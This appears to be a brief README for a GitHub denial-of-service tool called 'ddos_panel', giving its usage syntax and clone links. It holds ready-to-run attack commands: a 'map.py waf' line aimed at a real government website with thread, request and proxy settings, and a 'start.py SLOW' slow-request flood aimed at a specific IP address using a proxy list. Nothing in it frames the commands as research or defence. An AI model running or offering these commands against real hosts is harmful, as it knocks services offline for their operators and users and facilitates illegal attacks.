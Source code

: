 # ddos_panel
☠️☠️
map.py waf https://www.aeoi.org.ir/ 60 100 100 1
*********************
map.py <method> <url> <time> <thread> <rpc> <proxy>
*********************
proxy mode 1 , 2 , 3 , 4
https://github.com/MR-MRX-etc/ddos_panel.git
git clone https://github.com/SecureAuthCorp/impacket.git
https://github.com/MatrixTM/PyRoxy.git
python3 start.py SLOW http://162.241.85.135/ 0 500 proxy.txt 100 100
